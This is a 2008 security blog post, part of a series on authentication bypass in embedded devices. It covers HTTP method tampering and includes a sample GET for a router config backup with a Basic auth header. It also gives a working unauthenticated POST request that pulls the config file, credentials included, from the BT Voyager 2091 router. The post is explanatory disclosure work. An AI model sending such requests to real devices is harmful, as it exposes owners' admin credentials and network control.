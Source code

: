 ```yaml
---
title: Holes In Embedded Devices Authentication Bypass (pt 3)
author: pagvac
date: Sat, 16 Feb 2008 08:08:17 GMT
template: post.pug
---
```


We move on with the 3rd kind of authentication bypass bug. You may want to familiarize yourself with the previous two entries [here](/blog/holes-in-embedded-devices-authentication-bypass-pt-1) and [here](/blog/holes-in-embedded-devices-authentication-bypass-pt-2), before you continue.

## Unchecked HTTP methods

A device that is vulnerable to this issue, only performs an authentication check (i.e.: is the password being submitted with a request via basic authentication?) when the request is performed using a certain HTTP method. For instance, most devices have a feature to backup the config file which contains all the configuration settings including admin credentials. Let's say that when the admin user clicks on the "backup configuration" button, a GET request such as the following is submitted by the browser:

```http
GET /settings.cfg HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.0; en-GB; rv:1.8.1.11) Gecko/20071127 Firefox/2.0.0.11
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
Accept-Language: en-gb,en;q=0.5
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Connection: Keep-Alive
Referer: http://192.168.1.1/router-settings/
Authorization: Basic YWRtaW46cGFzc3cwcmQ=
```

However, the logic of the device is flawed and allows attackers to save the config file without a password by changing the HTTP method from GET to POST. This very same vulnerability is [present](http://www.securityfocus.com/archive/1/440405) on the BT Voyager 2091 Wireless ADSL router which allows attackers to save the config file without providing username/password:

```http
POST /psiBackupInfo HTTP/1.1
Host: 192.168.1.1
Connection: close
Content-Length: 0
```
